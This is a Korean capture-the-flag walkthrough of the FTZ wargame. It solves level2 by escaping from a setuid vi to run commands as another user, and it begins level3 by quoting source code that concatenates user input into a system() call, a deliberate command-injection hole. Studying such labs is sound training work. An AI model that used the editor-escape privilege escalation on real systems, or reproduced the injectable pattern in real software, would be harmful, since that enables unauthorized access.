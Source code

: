 길이가 매우 짧다. `setreuid`,`system` 함수가 눈에 들어온다.
`setreuid` 함수에 인자로는 `0xbbb(3003)` 이고 이는 `level3` 사용자의 uid와 gid이다.

```assembly
(gdb) x/s 0x8048444
0x8048444 <_IO_stdin_used+4>:	 "/bin/vi"
```

`system`함수로 전달되는 인자는 위와 같이 `/bin/vi` 로 vi editor를 실행하고 있다.
슈도코드는 다음과 같다.

```c
#include <stdio.h>
int main()
{
        char vi[8]="/bin/vi";
        setreuid(3003,3003);
        system(vi);
        return;

}
```

### Solution

vi editor에서 명령을 실행시키기 위해서 `!` 을 이용할 수 있다.

```
Level3 Password is "~~~~~~~".
uid=3003(level3) gid=3002(level2) groups=3002(level2)
~
~
:.!my-pass&id
```

위와 같이 `my-pass` 명령어를 통해 패스워드가 에디터 내에 출력되고, `id` 명령을 통해 실제 실행하고 있는 사용자를 확인하면 `level3` 사용자인 것을 확인할 수 있다.

## [+] FTZ level3

### Analysis

먼저 힌트를 확인한다.

```
다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main(int argc, char **argv){
 
    char cmd[100];
 
    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }
 
    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");
    system( cmd );
 
}
```